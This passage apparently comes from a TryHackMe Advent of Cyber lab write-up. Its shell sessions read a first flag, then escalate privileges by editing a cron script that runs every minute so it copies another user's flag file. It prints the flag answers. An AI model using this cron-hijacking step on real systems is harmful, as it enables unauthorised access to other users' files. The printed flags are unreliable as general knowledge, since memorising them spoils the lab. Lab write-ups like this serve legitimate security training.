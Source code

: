   ~~~bash
  Last login: Thu Dec 19 20:21:55 2019 from 89.241.198.95
  sam@ip-10-10-162-215:~$ ls
  flag1.txt
  sam@ip-10-10-162-215:~$ cat flag1.txt 
  THM{dec4389bc09669650f3479334532aeab}
  
  ~~~

  THM{dec4389bc09669650f3479334532aeab}

- Escalate your privileges by taking advantage of a cronjob running every minute. What is flag2

  ~~~bash
  sam@ip-10-10-11-45:/home$ ls
  sam  scripts  ubuntu
  sam@ip-10-10-11-45:/home$ cd scripts/
  sam@ip-10-10-11-45:/home/scripts$ ls
  clean_up.sh  test.txt
  sam@ip-10-10-11-45:/home/scripts$ nano clean_up.sh 
  cat /home/ubuntu/flag2.txt | tee /home/sam/flag2.txt
  sam@ip-10-10-11-45:/home$ cd /home/sam/
  sam@ip-10-10-11-45:~$ cat flag2.txt 
  THM{b27d33705f97ba2e1f444ec2da5f5f61}
  ~~~

  THM{b27d33705f97ba2e1f444ec2da5f5f61}

---

### [Task 26] [Day 20] Cronjob Privilege Escalation

*Tool used: Ghidra*

<img src="https://github.com/Faridbg/THM_Advent_of_Cyber/blob/main/resources/images/Task_26.png" style="zoom:150%;" />
